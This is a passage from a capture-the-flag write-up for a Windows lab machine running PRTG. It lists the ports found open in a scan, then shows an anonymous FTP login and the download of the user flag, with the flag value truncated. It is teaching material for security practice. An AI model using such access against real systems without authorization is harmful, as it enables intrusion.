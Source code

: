 We can observe that there are 13 ports open:

- **Port 21:** running Microsoft ftpd, with Anonymous FTP login allowed
- **Port 80:** running Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
- **Ports 139 & 445:** running SMB
- **Ports 135, 49664, 49665, 49666, 49667, 49668 & 49669:** running Microsoft Windows RPC
- **Ports 5985 & 47001:** running Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

<hr>

## Enumeration

**Getting Free flag from FTP**

In the scan report, we found that the FTP server allows anonymous access. After getting access, I quickly found a `user.txt` flag in the `C:\Users\Public` folder.

```bash
> ftp 10.10.10.152                                    
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:cybersapien): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
02-02-19 11:18PM 1024 .rnd
02-25-19 09:15PM <DIR> inetpub
07-16-16 08:18AM <DIR> PerfLogs
02-25-19 09:56PM <DIR> Program Files
02-02-19 11:28PM <DIR> Program Files (x86)
02-03-19 07:08AM <DIR> Users
02-25-19 10:49PM <DIR> Windows
226 Transfer complete.
....
ftp> pwd
257 "/Users/Public" is current directory.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
....
> cat user.txt 
dd58......................
```

Finding user flag was very easy!
